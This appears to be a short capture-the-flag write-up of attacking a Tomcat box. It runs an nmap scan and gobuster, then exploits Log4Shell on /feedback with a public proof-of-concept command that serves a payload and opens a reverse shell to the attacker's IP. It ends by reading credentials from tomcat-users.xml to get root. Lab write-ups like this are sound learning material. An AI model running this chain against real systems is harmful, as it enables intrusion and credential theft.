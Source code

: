 ```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 32:b7:e8:b5:50:97:bf:a2:d7:e2:3e:22:10:9d:75:74 (RSA)
|   256 59:26:fa:2e:fd:55:b0:5e:9a:ed:6c:1c:77:a4:3e:25 (ECDSA)
|_  256 3d:b5:bd:a0:6f:f5:8f:c0:06:00:69:2a:7a:c9:29:8d (ED25519)
8080/tcp open  http    Apache Tomcat 9.0.56
|_http-favicon: Apache Tomcat
|_http-title: Apache Tomcat/9.0.56
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```
On port 8080:
![](attachment/6099a57bd3a3a37c4a61e6e175b07428.png)
Now using gobuster we discover `/feedback`
![](attachment/3b0d2238d8bc50138325723b6b7bb8fd.png)
This is vulnerable to **[[Hacking/Web App Attacks/Log4Shell|Log4Shell]]** (I didn't know this)
Using this [shell](https://github.com/kozmer/log4j-shell-poc/tree/main)
```
python3 poc.py --userip 10.8.1.208 --webport 8000 --lport 9001
```
![](attachment/4e45c9e04dddbe104e01c3f5cd38c889.png)
And sending the payload in burp suite 
with url encoding.
![](attachment/4860ed53289f63cfb7cd400b8cb059d6.png)
We get a shell

Now enumerating the box to find password:
![](attachment/6804d06d54aff524c52653f74d7506f9.png)
There is a file called `tomcat-users.xml` in `/opt/tomcat/conf`
![](attachment/af5aa38a1f0d508e50ccd419776ab3ec.png)
Now we get the root password and root shell:
![](attachment/707942e6320b9ff9123fa286e0710464.png)